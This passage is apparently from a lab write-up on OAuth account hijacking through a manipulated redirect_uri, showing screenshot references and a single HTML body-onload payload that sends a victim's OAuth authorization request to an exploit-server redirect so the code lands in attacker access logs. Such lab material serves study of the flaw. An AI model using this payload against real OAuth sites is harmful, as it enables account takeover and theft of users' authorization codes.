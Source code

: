 ![img](images/OAuth%20account%20hijacking%20via%20redirect_uri/6.png)

Follow redirection:

![img](images/OAuth%20account%20hijacking%20via%20redirect_uri/7.png)

Access logs:

![img](images/OAuth%20account%20hijacking%20via%20redirect_uri/8.png)

Payload to open the link:
<body onload="window.open('https://oauth-0a5f00ff04d45537c1f997b8025a00a0.oauth-server.net/auth?client_id=wkw7zy0gcxh46yxashxrk&redirect_uri=https://exploit-0a4c00770488559fc1e198fb01180071.exploit-server.net/&response_type=code&scope=openid%20profile%20email')">
